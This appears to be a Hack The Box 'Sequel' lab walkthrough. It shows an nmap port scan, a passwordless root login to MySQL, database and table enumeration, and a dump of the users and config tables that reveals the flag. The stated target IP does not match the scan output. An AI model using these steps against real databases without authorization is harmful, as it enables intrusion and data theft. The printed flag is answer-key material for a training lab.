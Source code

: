 # Sequel
#startingpoint 
#veryeasy 
#mysql 
#mariadb

### Reconnaissance
The first step in any penetration test is to gather information about the target system. In this case, we are trying to identify open ports and services on the target host with the IP address 10.129.193.6. We use the `nmap -p- -sV $TARGET` command with the `-p-` option to scan all possible TCP ports and the `-sV` option to display service version information. The output shows that there are 65534 closed tcp ports (connection refused) and one open port, `mysql`, which is running a MySQL database service.
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-21 14:27 CET
Nmap scan report for 10.129.87.79
Host is up (0.054s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
```

### MYSQL
Since we found that there is a mysql database running we perform a research to check if there is any default credentials.
It seems that the default user could be root, so we try to access by running 

We try to connect to the MySQL database service using the default user (`root`) and the target IP address, the command looks like `mysql -u root -h $TARGET`. The output shows that the host is up and running. Once in we are able to list the databases using the `SHOW DATABASES;` command. We observe that there are four databases: `htb`, `information_schema`, `mysql`, and `performance_schema`
```
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0,052 sec)
```
Of the 4 databases the one that catch our attention is htb because it seems like a custom one, so we select it using the `use htb;` command to gain access to its tables. We list the tables in the `htb` database using the `SHOW TABLES;` command. We observe that there are two tables: `config` and `users`.
```
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0,055 sec)
```

We select all rows from the `users` table using the `SELECT * FROM users;` command. The output shows that there are four rows, each containing information about a user account.
```
+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0,045 sec)
```
We select all rows from the `config` table using the `SELECT * FROM config;` command. The output shows that there are seven rows, each containing information about a configuration setting.
```
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0,060 sec)
```
And we finally have found the flag value.